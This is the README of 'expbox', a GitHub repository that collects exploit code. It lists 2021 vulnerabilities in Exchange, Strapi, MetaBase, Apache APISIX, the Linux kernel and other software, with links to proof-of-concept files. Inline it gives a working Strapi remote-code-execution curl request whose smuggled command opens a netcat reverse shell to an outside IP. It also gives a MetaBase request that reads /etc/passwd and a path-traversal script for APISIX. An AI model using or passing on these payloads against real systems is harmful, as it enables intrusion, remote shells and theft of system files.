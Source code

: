 ![[object Object]](https://socialify.git.ci/0x0021h/expbox/image?description=1&name=1&stargazers=1&theme=Light)

### Introduction
expbox is an exploit code collection repository


### List
**Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution**
```
curl -i -s -k -X $'POST' -H $'Host: api-prod.horizontall.htb' -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwMzE5NzEwLCJleHAiOjE2MzI5MTE3MTB9.AfJr81dyxnmzlutCKArmf0kBgFCcDDhsk91IYNDpTFM' -H $'Content-Type: application/json' -H $'Origin: http://api-prod.horizontall.htb' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.42 4444 >/tmp/f)\",\"port\":\"80\"}' $'http://api-prod.horizontall.htb/admin/plugins/install'
```

**[CVE-2021-41349 Exchange XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021-41349-poc.py)**
```
<= Exchange 2013 update 23
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```
**[CVE-2021–3945 Django-helpdesk stored XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021%E2%80%933945-poc.txt)**
```
<= 0.3.0
```

**[CVE-2021-37580 Apache ShenYu 2.3.0/2.4.0 authentication bypass](https://github.com/0x0021h/expbox/blob/main/cve-2021-37580-poc.py)**
```
Ref: https://github.com/fengwenhua/CVE-2021-37580
```


**[Hadoop Yarn RPC RCE](https://github.com/0x0021h/expbox/blob/main/Hadoop%20Yarn%20RPC%20RCE.md)**
```
Ref: https://github.com/cckuailong/YarnRpcRCE
```

**[CVE-2021-41277 MetaBase Arbitrary File Read](https://github.com/0x0021h/expbox/blob/main/CVE-2021-41277.yaml)**
```
MetaBase < 0.40.5
1.0.0 <= MetaBase < 1.40.5

FOFA:

app="Metabase"

PoC:

GET /api/geojson?url=file:/etc/passwd HTTP/1.1
```

**[CVE-2021-42321 Exchange Post-Auth RCE](https://github.com/0x0021h/expbox/blob/main/CVE-2021-42321.py)**
```
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```

**[Windows 0day - InstallerFileTakeOver](https://github.com/0x0021h/expbox/blob/main/InstallerFileTakeOver.exe)**
![image](https://user-images.githubusercontent.com/92664048/142796024-a46e8a46-90d1-42ed-8cf2-42127fb65da3.png)
```
Ref:https://github.com/klinix5/InstallerFileTakeOver
```

**CVE-2021-43557 Apache APISIX: Path traversal in request_uri variable**
```
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

**[CVE-2021-43267 Linux Kernel TIPC RCE](https://github.com/0x0021h/expbox/blob/main/CVE-2021-43267.c)**
```
5.10-rc1 < Linux kernel < 5.15
```

Reference: https://haxx.in/posts/pwning-tipc/

**[Nginx 0.7.0 to 1.17.9 Host injection](https://github.com/0x0021h/expbox/blob/main/nginx%20%200.7.0%20to%201.17.9%20Host%20injection.md)**
```
Ref: https://twitter.com/infosec_90/status/1464337963240861702
```

**[CVE-2021-32849 Gerapy clone background remote command execution](https://github.com/0x0021h/expbox/blob/main/CVE-2021-32849.txt)**
```
Gerapy <= 0.9.6
```


### Note

All content comes from the Internet, if there is a copyright problem, please contact me to delete.
